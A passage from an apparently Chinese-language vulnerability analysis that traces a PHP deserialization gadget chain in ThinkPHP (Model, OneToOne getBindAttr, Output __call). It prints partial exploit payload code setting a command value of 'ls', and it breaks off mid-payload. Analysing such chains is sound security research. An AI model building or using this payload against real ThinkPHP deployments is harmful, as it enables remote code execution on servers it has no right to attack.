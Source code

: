         if ($relationModel) {
            $relationModel->setParent(clone $this->parent);
        }

        return $relationModel;
    }

可以看到这些条件都是满足的，然后看getBindAttr，发现在OneToOne类中是可控的

    public function getBindAttr()
    {
        return $this->bindAttr;
    }

所以代码执行到

    $item[$key] = $value ? $value->getAttr($attr) : null;

就可以调用Output类的`__call`方法，调用payload如下

    namespace think{
        use think\console\Output;
        use think\model\relation\HasOne;
        abstract class Model{
            protected $relation;
            protected $append = ["1"];
            protected $error;
            protected $parent;
            public function __construct()
            {
                $this->parent = new Output();
                $this->relation = ["getError"=>"getError"];
                $this->append = ["getError"=>"getError"];
                $this->error = new HasOne();
                $this->data = ["key"=>"ls"]; ;
            }
        }
    }

    namespace think\db{
        use think\console\Output;
        class Query
        {
            protected $model;
            public function __construct()
            {
                $this->model = new Output();
            }
        }
    }

    namespace think\model\relation{
        use think\db\Query;
        use think\model\Relation;
        abstract class OneToOne extends Relation
        {
            protected $query;
            protected $bindAttr = [];
            public function __construct()
            {
            }
        }
